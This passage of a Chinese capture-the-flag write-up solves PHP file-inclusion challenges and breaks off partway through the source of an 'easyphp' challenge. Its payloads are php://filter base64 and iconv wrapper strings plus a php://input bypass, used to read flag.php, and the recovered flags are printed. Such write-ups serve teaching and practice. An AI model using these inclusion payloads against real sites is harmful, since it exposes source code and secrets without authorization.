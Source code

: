    ```php
   ```
2. file1被包含，file1=php://filter/read=convert.base64-encode/resource=flag.php

   file2="hello ctf"，可以用input绕过file2=php://input，再传post参数，hello ctf
3. 得到PD9waHAKZWNobyAiV1JPTkcgV0FZISI7Ci8vICRmbGFnID0gY3liZXJwZWFjZXthZTdlNDM5YzlmMDQ1NzFlZTgxOTFiMDU1M2YyMDg4Nn0

   base64解码

cyberpeace{ae7e439c9f04571ee8191b0553f20886}

### file_include

1. 看源码，get传参filename=php://filter/read=convert.base64-encode/resource=flag.php
   回显do not hack!
2. 发现只要出现base，read就do not hack!，换一个过滤器
3. convert.iconv.utf-16.utf-8,可以输出输出内容为

   㼼桰ੰ晩␨䝟呅≛楦敬慮敭崢笩ऊ瀤敲彧慭捴彨獵牥慮敭㴠✠敲畴湲瀠敲彧慭捴⡨⼢慢敳扼籥湥潣敤灼楲瑮穼楬籢畱瑯摥睼楲整牼瑯㌱牼慥 籤瑳楲杮椯Ⱒ␠䝟呅≛楦敬慮敭崢㬩㬧ऊ晩⠠癥污␨牰来浟瑡档畟敳湲浡⥥ ੻††††楤⡥搢⁯潮⁴慨正∡㬩 †素紊
4. 这个过滤器就是按utf-16编码,按utf-8解码，找一个php在线运行

```php
<?php
echo iconv('utf-8','utf-16','㼼桰ੰ昤慬㵧挧批牥数捡筥愹戱㑢攸戲㝦㐵㝥っ慥㉦㉤㥣㈸搲愸❽਻');
```

5. 得到

   ```php
    ??<?php
   $flag='cyberpeace{9a1bb48e2bf754e7c0eaf2d2c9822d8a}';
   ```

### easyphp

1. 源码：

   ```php
   <?php
   highlight_file(__FILE__);
   $key1 = 0;
   $key2 = 0;

   $a = $_GET['a'];
   $b = $_GET['b'];

   if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
      if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
         $key1 = 1;
         }else{
               die("Emmm...再想想");
         }
      }else{
      die("Emmm...");
   }

   $c=(array)json_decode(@$_GET['c']);
   if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
      if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
         $d = array_search("DGGJ", $c["n"]);
         $d === false?die("no..."):NULL;
         foreach($c["n"] as $key=>$val){
               $val==="DGGJ"?die("no......"):NULL;
         }
         $key2 = 1;
      }else{
         die("no hack");
   ```